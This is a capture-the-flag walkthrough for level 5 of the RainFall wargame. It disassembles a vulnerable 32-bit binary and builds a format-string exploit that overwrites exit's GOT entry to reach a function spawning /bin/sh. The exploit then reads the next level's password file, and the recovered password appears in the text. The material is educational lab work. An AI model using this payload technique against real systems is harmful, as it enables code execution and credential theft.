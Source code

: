 # Level 5

Once logged in, you will see a binary `level5`.

```
$ ssh level5@localhost -p 4444
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level5@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

Once running the binary, it does the same thing as level 4.

```
level5@RainFall:~$ ./level5
aaaaaaaaaaaa
aaaaaaaaaaaa
level5@RainFall:~$
```

Let's take a look at the assembly:

```
gdb-peda$ info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
0x080485cc  _fini
```

There are three function declared in the program, so let's take a look at each.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave
   0x08048510 <+12>:	ret
End of assembler dump.
gdb-peda$
```

```
gdb-peda$ disass n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.

gdb-peda$ x 0x8049848
0x8049848 <stdin@@GLIBC_2.0>:	0x00000000
```

```
gdb-peda$ disass o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
gdb-peda$ x/s 0x80485f0
0x80485f0:	 "/bin/sh"
```

By decompiling the code, we find that the function `n` is called, but unfortunately the `o` function is never called. In this exploit, we will replace the address of the call to `exit()` with the address of `o`.

We'll accomplish this by filling in the GOT (Global Offset Table) cache before it gets written. Below is an explanation of GOT [from here](https://www.mattandreko.com/2012/02/02/exploit-exercises-protostar-format-4/):
> When the program runs for the first time, the GOT is initialized to 0x00000000 for every external function, such as libc functions. The first time it runs that function, it will cache the memory address in the GOT, so that it doesn’t have to ask libc, or the corresponding library each time. If we overwrite the GOT value, we can make it execute arbitrary code instead of that original function.

The memory address of `exit()` can be acquired by using `objdump`

```
level5@RainFall:~$ objdump -R ./level5

./level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

So the cache address for `exit` in the GOT is `0x08049838`.

The only thing left is to overwrite the address `0x08049838` (address of exit) with the value `0x080484a4` (address of `o`) using a format string exploit, the same technique used by last problem.

```
Python 3.10.4 (v3.10.4:9d38120e33, Mar 23 2022, 17:29:05) [Clang 13.0.0 (clang-1300.0.29.30)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x080484a4
134513828
```

`0x80484a4` is `134513828` in decimal, which is the value that needs to be written on `0x08049838`, which is `\x38\x98\x04\x08` in little endian. Note that we'll fill in the `134513824` bytes of padding with the same format trick as in the last level. The last thing we need is the offset:

```
level5@RainFall:~$ (python -c 'print "BBBB" + "%x " * 8') | ./level5
BBBB200 b7fd1ac0 b7ff37d0 42424242 25207825 78252078 20782520 25207825
```

Armed with our offset of `4` from above, voilà our exploit:

```
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
[...]0000000000000000000000000000000000000000000000000000000000000000000000000200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
level5@RainFall:~$
```
